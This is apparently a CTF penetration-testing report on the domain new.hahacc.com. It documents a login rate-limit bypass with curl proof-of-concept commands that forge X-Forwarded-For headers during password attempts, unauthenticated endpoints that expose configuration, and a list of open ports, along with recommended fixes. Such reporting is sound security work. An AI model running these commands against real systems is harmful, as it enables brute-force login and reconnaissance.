

# Penetration Testing Report: new.hahacc.com (CTF)

- Test date: 2026-05-26
- Target: `new.hahacc.com`
- Scope: Target domain and its exposed interfaces only
- Method: Passive reconnaissance + interface enumeration + authentication and rate-limit verification

## Summary

This test found two core issues:

1. The login rate limit can be bypassed by forging `X-Forwarded-For` (High risk)
2. Multiple unauthenticated interfaces expose sensitive system runtime configuration (Medium risk)

## Vulnerability 1: Login Rate-Limit Bypass (XFF Header Trust)

- Risk level: High
- Affected interface: `POST /api/user/login`
- Vulnerability description:
  Without validating the proxy chain as trusted, the server appears to use a controllable request header (`X-Forwarded-For`) as the rate-limit key. An attacker can forge or rotate XFF values to bypass the 429 rate limit and make high-concurrency password attempts.

### Reproduction command (PoC)

```bash
# 1) Without a forged header: trigger the rate limit
curl -k -s -o /dev/null -w "%{http_code}\n" \
  -H "Content-Type: application/json" \
  -X POST "https://new.hahacc.com/api/user/login?turnstile=" \
  --data '{"username":"root","password":"12345678"}'
# Result: 429

# 2) With a forged XFF header: restore request access (bypass the rate limit)
curl -k -s -o /dev/null -w "%{http_code}\n" \
  -H "Content-Type: application/json" \
  -H "X-Forwarded-For: 10.0.0.123" \
  -X POST "https://new.hahacc.com/api/user/login?turnstile=" \
  --data '{"username":"root","password":"12345678"}'
# Result: 200
```

### Evidence

- Consecutive requests without XFF: `429`
- Consecutive requests with rotating XFF values: `200`

### Recommended fixes

1. Trust only the real source IP inserted by the reverse-proxy layer, such as Nginx `real_ip` with a trusted-proxy allowlist.
2. Base application-layer rate limits on a combination of trusted source address, account, and device fingerprint.
3. Strictly validate the source of `X-Forwarded-For`. Block direct client overwrites.
4. Add login-failure delays and account-protection policies, including a sliding window, exponential backoff, and CAPTCHA escalation.

## Vulnerability 2: Unauthenticated Sensitive Information Exposure (Status and Business Configuration)

- Risk level: Medium
- Affected interfaces:
  - `GET /api/status`
  - `GET /api/pricing`
  - `GET /api/setup`
- Vulnerability description:
  An unauthenticated user can obtain the full system runtime configuration, feature flags, OAuth/Passkey parameters, group policies, and model or billing policies. An attacker can use this information to map the attack surface and optimize credential-stuffing strategies.

### Reproduction commands (PoC)

```bash
curl -k -s https://new.hahacc.com/api/status
curl -k -s https://new.hahacc.com/api/pricing
curl -k -s https://new.hahacc.com/api/setup
```

### Examples of exposed fields

- `self_use_mode_enabled`
- `turnstile_check`
- `passkey_rp_id` / `passkey_origins`
- `supported_endpoint` / `group_ratio` / `usable_group`
- `setup` and `root_init` status fields

### Recommended fixes

1. Move high-sensitivity configuration to authenticated interfaces. Return only the minimum fields needed for frontend display.
2. Create a field allowlist for anonymous interface output. Deny internal configuration fields by default.
3. Apply access control and minimize return values for initialization-status interfaces. Prevent state inference.

## Attack Path Diagram



## Other Test Records

- Port-level testing found multiple open ports (22/80/443/3000/3306/5000/5432/6379/8080/8443/9200/27017), but most service fingerprints were limited. No further exploitation occurred within this scope.
- Most interfaces in the bulk probe required authentication (401), which indicates that core business functions still have basic authentication.

## Risk Conclusion

The main risk is not "direct unauthorized login". It is a rate-limit control that can be bypassed plus excessive anonymous information exposure. Combined exploitation can significantly reduce attack costs.
